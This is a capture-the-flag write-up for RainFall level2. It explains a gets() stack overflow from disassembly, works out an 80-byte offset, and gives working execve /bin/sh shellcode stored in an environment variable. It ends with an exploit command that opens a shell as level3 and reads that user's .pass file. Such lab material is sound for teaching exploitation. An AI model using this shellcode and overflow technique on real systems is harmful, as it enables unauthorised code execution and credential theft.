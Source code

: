Like in level1, there is a call to `gets()`, we have to find the buffer size.

In `p()` we can see :
```
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
```
eax value is at address `ebp-0x4c`, and `seip` is by convention at `ebp+0x04` so we do the maths :
```
>>> 0x04 - (-0x4c)
80
```
The buffer size is `80`
```
Starting program: /home/user/level2/level2 <<< $(python -c "print 'A' * 80 + 'BBBB'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)  info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```
Those two lines after the call to `gets()` are showing a protection against a stack injection, no nop sleds is possible.
```
0x080484fb      and eax, 0xb0000000
0x08048500      cmp eax, 0xb0000000
```
For example, if we try to target an address after the `gets()` like `ret => 0x0804853e` and then go 4 bytes after the original EIP address `info frame` to target the NOP `0xbffff71c + 4 = 0xbffff720`, or target `system` in the libc, the program calls `exit`.

If we put our shellcode in an environment variable, we be sure that it's not alterated with the buffer.

take a shellcode:
http://shell-storm.org/shellcode/files/shellcode-827.php

```
export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
the NOP are added to optimize the chance that the ret address points to it so the SHELLCODE will be executed.

Get SHELLCODE var address with gdb 
```
(gdb) x/5s *((char **)environ)
...
0xbffff7ef:	 "SHELLCODE=...
```
then
```
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + [shellcode address] " & cat) | ./level2
whoami
level3
cat /home/user/level3/.pass
```
